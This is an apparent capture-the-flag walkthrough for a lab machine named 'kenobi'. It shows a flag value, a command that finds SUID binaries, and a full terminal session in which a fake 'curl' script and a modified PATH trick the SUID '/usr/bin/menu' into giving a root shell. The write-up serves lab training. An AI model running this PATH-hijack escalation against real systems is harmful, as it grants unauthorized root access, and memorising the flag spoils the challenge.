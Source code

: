 
We now have access to kenobi's machine

the flag is *d0b0f3f53b6caa532a83915e19224899*

#### Task 4: Privilege Escalation with Path Variable Manipulation

**Q1: What file looks particulary out of the ordinary?**

SUID bits can be dangerous and custom files that have the SUID bit can lead to all sorts of issues.

To search the system for these types of files we can run the command:
`find / -perm -u=s -type f 2>/dev/null`

the answer is */usr/bin/menu*

**Q2: How many options appear?**

if we run the `menu` command on the kenobi machine is presents us with this:
```
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :

```

The answer is *3*.

**Q2**

Since this 'menu' command runs as the root users privileges, we can manipulate our path an gain a root shell.

```
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ ls
curl  systemd-private-72a4e6701c0c4a7e9649324ee26d0ec3-systemd-timesyncd.service-lKQrnx
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ ls
curl  systemd-private-72a4e6701c0c4a7e9649324ee26d0ec3-systemd-timesyncd.service-lKQrnx
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)

```
